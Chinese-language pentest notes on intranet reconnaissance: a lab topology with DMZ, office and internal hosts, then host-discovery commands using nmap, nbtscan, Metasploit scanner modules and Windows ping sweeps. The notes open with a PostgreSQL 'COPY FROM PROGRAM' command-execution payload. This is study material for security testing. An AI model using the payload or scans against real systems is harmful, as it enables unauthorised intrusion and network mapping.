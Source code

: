 DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'id'; SELECT * FROM cmd_exec;



### **内网环境搭建**

互联网 -  路由器 - PC1  - PC3 

\- PC2

PC1 [192.168.1.100] [192.168.2.200]   （DMZ）-- NAT + 仅主机vmnet5

PC2 [192.168.1.101]	（办公区）	-- NAT

PC3 [192.168.2.201]	  （内网区）	-- 仅主机vmnet5

 \1. PC1 能连通互联网， PC2也能连通互联网，pc1 也能连通 pc2 

 \2. PC3 不能连接互联网，但可以和PC1互通



### **内网信息收集 - 存活探测**

1. netbios 主机名和ip地址做映射

nmap -sU -T4 --script nbstat.nse -p137 192.168.1.0/24



use auxiliary/scanner/netbios/nbname



nbtscan -r 192.168.1.0/24



nbtscan 下载 ： http://www.unixwiz.net/tools/nbtscan.html

netscan.exe -m 192.168.1.0/24

1. icmp 

for /l %i in (1,1,255) do @ ping 192.168.1.%i -w 1 -n 1|find /i "ttl="

for /l %i in (1,1,255) do @ ping 192.168.20.%i -w 1 -n 1|find /i "ttl="



把存活的放在b.txt 把不存活的放在a.txt

@for /l %i in (1,1,255) do @ping -n 1 -w 40 192.168.1.%i & if errorlevel 1 (echo 192.168.1.%i>>c:\a.txt) else (echo 192.168.1.%i >>c:\b.txt)



namp ping存活探测

nmap -sn -PE -T4 192.168.1.0/24

1. UDP

nmap -sU –T4 -sV --max-retries 1 192.168.1.0/24 -p 500

auxiliary/scanner/discovery/udp_sweep

1. ARP mac和ip做映射

nmap -sn -PR 192.168.1.0/24

auxiliary/scanner/discovery/arp_sweep

arp -a (查看arp缓存表，可以快速发现部分存活主机，但是不一定准确和完整)

1. smb 

nmap -sT -T4 -p445 192.168.1.0/24

auxiliary/scanner/smb/smb_version